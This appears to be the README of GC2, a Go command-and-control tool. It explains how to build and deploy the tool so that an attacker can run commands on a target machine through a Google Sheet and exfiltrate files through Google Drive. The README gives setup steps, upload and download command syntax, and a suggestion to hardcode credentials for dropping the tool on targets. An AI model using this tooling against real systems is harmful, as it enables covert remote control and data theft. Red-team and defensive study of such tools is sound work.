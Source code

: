 # GC2

GC2 (Google Command and Control) is a Command and Control application that allow an attacker to execute command on the target machine using Google Sheet and exfiltrate data using Google Drive.


# Set up

1. **Build executable**
 
    ```bash
    git clone <asdf>
    cd <asdf>
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor of the spreadsheet (to add the service account use its email)
    
    Create a new Google Drive folder and add the service account to the editor of the folder (to add the service account use its email)

4. **Start the C2**

    ```bash
    gc2-sheet --key <GCP service account credential in JSON> --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will have only the executable to upload on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there is some new command from the column "A" and will print the command result in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
From Target to Google Drive
upload;<remote path>
Example:
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
 ```

## TO DO

- Test exfiltration and download with large file
- Optimize task execution
- Add some kind of obfuscation

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)